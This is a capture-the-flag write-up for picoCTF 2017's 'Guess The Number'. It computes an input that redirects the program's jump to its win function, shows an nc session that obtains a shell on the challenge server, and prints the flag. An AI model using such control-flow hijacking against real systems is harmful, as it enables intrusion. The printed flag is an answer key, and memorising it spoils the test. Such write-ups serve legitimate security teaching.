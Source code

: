 # Guess The Number

> Just a simple number-guessing game. How hard could it be? Binary Source. Connect on shell2017.picoctf.com:20545.

Hints:

> What is the program doing with your input number?

> strtol checks for overflow, but it does allow negative numbers...

We can notice that the program jumps to the address we will give it. However it shifts right our number by 4 bits first.

Using `readelf` we can find address of the win function.
```
$ readelf guess_num -s
...(a lot of data)
    59: 00000000     0 FUNC    GLOBAL DEFAULT  UND __libc_start_main@@GLIBC_
    60: 08048630    97 FUNC    GLOBAL DEFAULT   13 __libc_csu_init
    61: 0804852b    40 FUNC    GLOBAL DEFAULT   13 win
    62: 08049a08     0 NOTYPE  GLOBAL DEFAULT   25 _end
    63: 08048430     0 FUNC    GLOBAL DEFAULT   13 _start
...(a lot of data)
```
We can easily calculate the number we need `0x0804852b <<4 = -2142743888`. (`<<` stands for shitf left)
Now we can connect to the server.

```
$ nc shell2017.picoctf.com 20545
Welcome to the number guessing game!
I'm thinking of a number. Can you guess it?
Guess right and you get a shell!
Enter your number: -2142743888
You entered -2142743888. Let's see if it was right...
Congratulations! Have a shell:
/bin/sh: 0: can't access tty; job control turned off
$ ls
flag.txt
guess_num
xinetd_wrapper.sh
$ cat flag.txt
181db5615729e295ea7a5d5773c3829b
```

The flag is `181db5615729e295ea7a5d5773c3829b`.